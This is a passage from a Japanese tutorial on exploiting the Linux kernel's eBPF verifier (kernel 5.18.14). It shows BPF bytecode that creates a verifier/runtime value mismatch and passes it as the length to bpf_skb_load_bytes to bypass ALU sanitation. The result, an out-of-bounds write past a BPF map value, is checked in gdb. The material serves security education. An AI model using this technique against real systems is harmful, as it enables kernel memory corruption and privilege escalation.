 ```c
		memcpy(to, ptr, len);

	return 0;
err_clear:
	memset(to, 0, len);
	return -EFAULT;
}

static const struct bpf_func_proto bpf_skb_load_bytes_proto = {
	.func		= bpf_skb_load_bytes,
	.gpl_only	= false,
	.ret_type	= RET_INTEGER,
	.arg1_type	= ARG_PTR_TO_CTX,
	.arg2_type	= ARG_ANYTHING,
	.arg3_type	= ARG_PTR_TO_UNINIT_MEM,
	.arg4_type	= ARG_CONST_SIZE,
};
```
この関数は、パケットの内容をBPF側（マップやスタック）にコピーできます。
第一引数をコンテキスト、第二引数をコピーしたいパケットデータのオフセット、第三引数をコピー先のバッファ、第四引数をコピーするサイズに指定します。コピー元はパケットデータなので、`write`でソケットに送ったデータがコピーされます。
この関数を呼び出す際に引数が範囲外でないかを判断しますが、ALU sanitationの影響は受けません。したがって、関数内部で範囲外へのデータコピーが実現できます。

実際に試してみましょう。今、BPFマップのデータサイズは8なので、8バイト以上コピーできれば成功です。
試しに検証器が1と判断し、実際の値が0x10であるようなレジスタを作ります。`write`で0x10バイト以上のデータを送り、それがマップにコピーされているかをgdbで確認します。（サイズとして0（と推測される値）を渡すと検証器に警告されるので注意）
```c
...
    // R1 --> 0 / actual: 1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1 --> 1 / actual: 0x10
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_1, 0x10-1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // map[0]に書き込み（ALU sanitationの回避）
    BPF_MOV64_IMM(BPF_REG_ARG2, 0),              // arg2=offset (0)
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_9),      // arg3=to (&map[0])
    BPF_MOV64_REG(BPF_REG_ARG4, BPF_REG_1),      // arg4=len (1/0x10)
    BPF_MOV64_REG(BPF_REG_ARG1, BPF_REG_8),      // arg1=skb
    BPF_EMIT_CALL(BPF_FUNC_skb_load_bytes),
...
```
上のプログラムでは、BPFマップの0番目の要素（最初に取得したアドレスR9に保存している）に対して`skb_load_bytes`でパケットデータを書き込みます。実際には0x10バイト書き込まれますが、検証器は1バイトと推測しているため許可されます。
プログラムを呼び出す際に、次のように0x10バイトのデータを送ってみましょう。
```c
  char payload[0x10];
  *(unsigned long*)&payload[0] = 0x4141414141414141;
  *(unsigned long*)&payload[8] = 0xdeadbeefcafebabe;
  write(socks[1], payload, 0x10);
```
実行後にgdbでマップのアドレスを確認すると、下図のように、今回のデータサイズである8バイトを超えて範囲外書き込みできていることが分かります。


[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外